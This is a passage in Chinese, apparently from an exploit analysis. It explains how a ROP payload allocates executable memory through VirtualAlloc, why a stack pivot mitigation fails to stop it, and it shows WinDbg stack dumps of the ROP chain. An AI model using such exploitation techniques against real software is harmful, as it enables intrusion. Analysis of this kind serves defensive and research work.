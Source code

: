 这意味着，ROP 载荷将分配具有 PAGE_EXECUTE_READWRITE (0x40) 和 MEM_COMMIT (0x1000)属性的 0x1000 字节的内存空间。

我们查看一下 TEB 中的 StackBase 和 StackLimit 的值。

如下所示，栈指针在 StackBase 和 StackLimit 的范围以内，因此 stack pivot 缓解措施将不能阻止该漏洞利用。

![enter image description here](img/img23_u1_png.jpg)

进一步分析，在调用 VirtualAllocStub()的点，堆栈布局如下：

```
1:020> dd esp
0220ec50 5e861193 00000000 00001000 00001000
0220ec60 00000040 5e861192 c30c4889 5e89a4ca
0220ec70 41414141 5e861192 9090a5f3 5e8e2e45
0220ec80 5e861192 c3084889 5e89a4ca 41414141
0220ec90 5e861192 90909090 5e8e2e45 5e861192
0220eca0 c3044889 5e89a4ca 41414141 5e861192
0220ecb0 9090ee87 5e8e2e45 5e861192 10788d60
0220ecc0 5e89a4ca 070514b8 5e861192 00000143 
```

在返回地址 0x5e861193 处设置断点，新分配的内存地址 0x1c100000 存储在 eax 中。 接下来的 ROP 载荷也很有趣：

```
1:020> dd esp
0220ec64 5e861192 c30c4889 5e89a4ca 41414141
0220ec74 5e861192 9090a5f3 5e8e2e45 5e861192
0220ec84 c3084889 5e89a4ca 41414141 5e861192
0220ec94 90909090 5e8e2e45 5e861192 c3044889
0220eca4 5e89a4ca 41414141 5e861192 9090ee87
0220ecb4 5e8e2e45 5e861192 10788d60 5e89a4ca
0220ecc4 070514b8 5e861192 00000143 5e8e2e45
0220ecd4 5eef8947 068e2bf8 5eedecc1 06a50021 
```
